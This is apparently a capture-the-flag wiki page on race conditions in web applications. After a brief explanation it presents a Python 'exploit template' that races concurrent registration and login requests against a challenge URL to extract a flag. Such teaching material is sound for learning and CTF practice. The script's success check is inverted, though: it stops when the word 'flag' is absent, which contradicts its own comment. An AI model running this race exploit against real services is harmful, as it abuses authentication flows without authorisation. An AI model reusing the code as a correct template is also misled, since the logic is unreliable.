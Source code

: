 ```yaml
---
id: race-condition
title: Race conditions
---
```


# Race conditions

A race condition happens when concurrent calls lead to a not wanted status of the system.
This can occur in web app because they are thought for multiple user access at the same time.

For example, consider two users that want to modify the same value.
They interact with the server and ask to it in parallel for two different changes.
No synchronization between calls, no transactions for read and write or whatever multithreads control system is implemented.

<p align="center">
    <img src={require("./assets/race_condition.jpg").default}></img>
</p>

## Exploit template

```py
#!/usr/bin/env python3

import random
import string
import requests
import threading
import time

# change this value with the base url like "https://challenge.pwn"
URL = "URL"

# very simple way for multithread communication
# remember to use `global found`
found = False


def register(session, username, password):
    url = "%s/register" % URL
    payload = {"username": username, "password": password}
    r = session.post(url, data=payload)
    return r.text


def login(session, username, password):
    # import global found to communicate with the main thread
    global found

    url = "%s/login" % URL
    payload = {"username": username, "password": password}
    r = session.post(url, data=payload)

    # check for flag and print output
    if "flag" not in r.text:
        print(r.text)
        found = True

    return r.text


def random_string():
    k = random.randint(6, 15)
    allowed_chars = string.ascii_lowercase + string.digits
    return "".join(random.choices(allowed_chars, k=k))


# test calls

session = requests.Session()
username = random_string()
password = random_string()

res = register(session, username, password)
assert "success" in res

res = login(session, username, password)
assert "success" in res

# start exploit

while not found:
    session = requests.Session()
    username = random_string()
    password = random_string()

    t_register = threading.Thread(target=register,
        args=(session, username, password))
    t_register.start()

    # sometimes, a small delay between calls could be needed
    k = random.random() / 10
    time.sleep(k)

    t_login = threading.Thread(target=login,
        args=(session, username, password))
    t_login.start()

    # wait for the last thread to finish
    t_login.join(timeout=1)
```
